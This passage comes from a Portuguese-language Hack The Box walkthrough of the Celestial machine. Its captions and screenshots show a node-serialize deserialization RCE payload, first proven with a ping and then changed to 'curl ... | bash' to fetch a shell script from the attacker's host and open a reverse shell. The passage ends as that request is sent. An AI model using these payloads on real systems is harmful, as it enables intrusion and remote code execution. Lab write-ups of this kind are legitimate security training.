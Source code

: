 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_alt.png)

Encodamos em Base64

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_alt1.png)

Enviamos e vimos que não deu erro

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_alt2.png)

Ta, não deu erro, mas será que executou o código? Depois de testar várias vezes vi que não executou, então fiz algumas alterações no código

Vamos alterar direto no `Decoder` do `BurpSuite`

> {"username":"_$$ND_FUNC$$_require('child_process').exec('ping -c1 10.10.16.119', function(error,stdout,stderr) { console.log(stdout) })","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_ping.png)

Ligamos o `tcpdump`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_ping1.png)

Enviamos a requisição

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_ping2.png)

Recebemos o ping!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_ping3.png)

Temos RCE!!!

Agora pegamos um Reverse Shell antes de fazer as outras duas possibilidades de exploração

Esse será o que vai ser executado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_s.png)

Alteramos no BurpSuite

```
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl 10.10.16.119/shell.sh | bash', function(error,stdout,stderr) { console.log(stdout) })","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_s1.png)

Ligamos o Python Web Server e o nc na porta 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-celestial/C_s2.png)

Enviamos a requisição
